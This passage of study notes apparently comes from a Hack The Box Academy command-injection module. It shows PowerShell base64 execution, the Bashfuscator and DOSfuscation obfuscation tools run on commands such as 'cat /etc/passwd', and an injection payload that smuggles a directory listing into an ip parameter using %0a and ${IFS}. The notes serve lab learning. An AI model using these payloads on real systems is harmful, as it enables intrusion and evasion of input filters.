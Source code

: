 | `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string |

>In windows using the `~` to not starting character position in string, and minus the length, can produce slash character: `echo %HOMEPATH:~6,-11%`  

## Bashfuscator  

>Linux bash Automated obfuscation tool - [Bashfuscator](https://academy.hackthebox.com/module/109/section/1040).  

```
cd /home/kali/Downloads/htb/academy/command/Bashfuscator/bashfuscator/bin/

bashfuscator -h

./bashfuscator -c 'cat /etc/passwd'
```  

>The output from below bash obfuscater tool is `eval "$(rev <<<'dwssap/cte/ tac')"`  

```
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```  

>Linux bash Automated obfuscation tool - [DOSfuscation](https://academy.hackthebox.com/module/109/section/1040).  

```powershell
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation

SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
encoding
```  

>Reference: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion)  

# OS CMD Inject Exercises  

>Use what you learned in [Bypassing Other Blacklisted Characters section](https://academy.hackthebox.com/module/109/section/1037) to find name of the user in the '/home' folder. What user did you find?
```
ip=127.0.0.1%0al's'${IFS}-al${IFS}${PATH:0:1}home
```  

>Use what you learned in [Bypassing Blacklisted Commands section](https://academy.hackthebox.com/module/109/section/1038) find the content of flag.txt in the home folder of the user you previously found.
